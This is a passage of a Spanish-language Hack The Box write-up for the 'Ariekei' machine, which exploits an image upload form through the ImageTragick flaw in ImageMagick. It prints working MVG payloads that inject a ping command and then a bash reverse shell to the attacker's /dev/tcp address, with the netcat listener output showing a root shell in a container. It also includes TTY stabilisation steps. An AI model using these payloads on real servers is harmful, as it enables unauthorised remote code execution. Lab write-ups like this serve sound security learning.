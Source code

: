 ```null

000000352:   200        34 L     141 W      1656 Ch     "upload"
```

En ```/upload``` hay un formulario de subida de imagenes

<img src="/writeups/assets/img/Ariekei-htb/6.png" alt="">

Al intentar subir una foto cualqueria, se queda colgado. Existe una vulnerabilidad para ```Image Magisk```, un procesador de imágenes. En este [artículo](https://mukarramkhalid.com/imagemagick-imagetragick-exploit/) explican en que consiste. Creo un archivo ```pwned.mvg``` con el siguiente contenido:

```null
push graphic-context
viewbox 0 0 640 480
fill 'url(https://asdfasdf/0asdf.jpg"|ping -c 1 10.10.16.11;echo "asdf)'
pop graphic-context
```

Y recibo la traza ICMP

```null
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:19:39.829690 IP 10.10.10.65 > 10.10.16.11: ICMP echo request, id 15, seq 1, length 64
16:19:39.831320 IP 10.10.16.11 > 10.10.10.65: ICMP echo reply, id 15, seq 1, length 64
```

Me mando una reverse shell y gano acceso a un contenedor

```null
push graphic-context
viewbox 0 0 640 480
fill 'url(https://1.1.1.1/0xdf.jpg"|bash -i >& /dev/tcp/10.10.16.11/443 0>&1;echo "yay)'
pop graphic-context
```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.10.65] 55134
[root@calvin app]# script /dev/null -c bash
script /dev/null -c bash
[root@calvin app]# ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                reset xterm
[root@calvin app]# export TERM=xterm
[root@calvin app]# export SHELL=bash
[root@calvin app]# stty rows 55 columns 209
```
